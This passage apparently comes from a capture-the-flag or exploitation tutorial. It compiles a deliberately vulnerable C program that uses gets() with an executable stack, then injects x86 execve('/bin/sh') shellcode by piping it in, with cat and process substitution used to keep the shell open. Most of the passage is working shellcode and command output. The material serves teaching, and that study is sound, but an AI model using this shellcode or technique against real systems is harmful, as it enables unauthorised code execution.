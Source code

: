 Compiling our version of the challenge:

```
$ gcc -m32 -z execstack vuln.c -o vuln
vuln.c: In function ‘vuln’:
vuln.c:11:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/usr/bin/ld: /tmp/ccd5yz3j.o: in function `vuln':
vuln.c:(.text+0x19): warning: the `gets' function is dangerous and should not be used.

```

I left the warnings in the output here to make it clear that this code is
insecure. Now let's try injecting our shell code:

```
$ echo -e '\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb8\x0b\x00\x00\x00\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xcd\x80' | ./vuln 
Enter your shellcode:
Thanks! Executing from a random location now...
```

It doesn't look like much happened. Let's investigate with `strace`

```
$ echo -e '\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb8\x0b\x00\x00\x00\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xcd\x80' | strace ./vuln
<-----SNIP----->
execve("/bin//sh", NULL, NULL)          = 0
<-----SNIP----->
```

So we've made the system call we were hoping for, but didn't see an interactive
shell. The issue is the `echo` command on the left of the pipe executes then
exits, causing the pipe to be closed and exiting the program on the right too.
A simple solution would be to replace this with a command that won't close
instantly, e.g. `cat -`, which will wait for input. Let's try:

```
$ echo -e '\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb8\x0b\x00\x00\x00\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xcd\x80' > data
cat data - | ./vuln
$ cat data - | ./vuln
Enter your shellcode:
Thanks! Executing from a random location now...
ps -p $$
  PID TTY          TIME CMD
 6114 pts/3    00:00:00 sh
```

And it works! Note that we could've avoided the additional `data` file via
process substitution:

```
$ cat <(echo -e '\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb8\x0b\x00\x00\x00\x89\xe3\xb9\x00\x00\x00\x00\xba\x00\x00\x00\x00\xcd\x80') - | ./vuln
Enter your shellcode:
Thanks! Executing from a random location now...
ps -p $$
  PID TTY          TIME CMD
 6364 pts/3    00:00:00 sh
```
